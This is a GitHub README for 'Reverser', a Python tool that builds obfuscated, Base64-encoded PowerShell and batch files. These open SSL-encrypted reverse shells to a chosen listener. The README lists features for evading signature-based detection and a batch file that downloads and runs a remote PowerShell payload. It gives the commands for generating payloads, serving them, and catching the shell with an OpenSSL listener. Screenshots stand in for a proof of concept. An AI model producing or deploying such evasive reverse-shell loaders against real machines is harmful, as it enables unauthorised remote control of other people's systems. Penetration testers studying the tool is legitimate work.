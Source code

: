 # Reverser: Reverse Shell Generator with SSL Encryption

## Overview

**Reverse** is a Python-based tool designed to generate obfuscated PowerShell scripts or batch files for establishing a reverse shell with SSL encryption. This tool can help in penetration testing scenarios where the goal is to bypass security mechanisms and establish a secure connection to a target machine.

## Features

- **Reverse Shell with SSL Encryption:** Generates PowerShell scripts that establish an encrypted reverse shell connection using SSL.
- **Obfuscation:** Each generated PowerShell script uses randomly selected variable names to avoid signature-based detection by security tools.
- **Base64 Encoding:** The PowerShell scripts are encoded in Base64 for additional obfuscation.
- **Batch File Generation:** Create a batch file that downloads and executes the encoded PowerShell script directly from a remote server.
- **Customizable:** Users can specify the IP address, port, and server URL for downloading the PowerShell script.

### Prerequisites

- Python 3.x
- OpenSSL (for certificate generation)

### Installation

Clone the repository:

```bash
git clone https://github.com/ShkudW/Reverser.git
cd Reception
```

## Usage

Generate an Encoded PowerShell Script:
```bash
python3 Reverser.py -ip <Your_Listener_Server_IP> -port <Your_Listener_Server_PORT> -type ps1
```

Generate a Batch File and PowerShell Script:
```bash
python3 Reverser.py -ip <Your_Listener_Server_IP> -port <Your_Listener_Server_PORT> -type bat -server http://<Your_Server_ip|URL>/<File-Name>.ps1
```

Open a listener for downloadingg the PS1 file with listener.py:
```bash
python3 listener.py -port <Your_Server_PORT>
```

Open a listener for getting Reverse-Shell with OpenSSL:
```bash
openssl s_server -accept <Your_Listener_Port> -cert reception.pem -key reception.key -quiet
```

## PoC:
Generate a Batch File that downloading and executing a PS1 file:

![image](https://github.com/user-attachments/assets/4816ff7f-e694-413b-8a82-eb6eec74df65)


Running the Batch file on the target machine, the connection is not secure yet, and headers that look legitimate are passed:

![image](https://github.com/user-attachments/assets/87a630c3-2310-4f91-a8fe-d0948523de2f)


Running the listener server and getting a request for downloaing the PS1 file:

![image](https://github.com/user-attachments/assets/14618c88-ba1b-452d-8b26-5e803c47772d)


Traffic is secure:

![image](https://github.com/user-attachments/assets/42f5453d-4687-4432-bfb4-070074260549)


Getting a Secure Reverse Shell:

![image](https://github.com/user-attachments/assets/16ecaf01-05fa-4e18-84a6-c063937ad808)



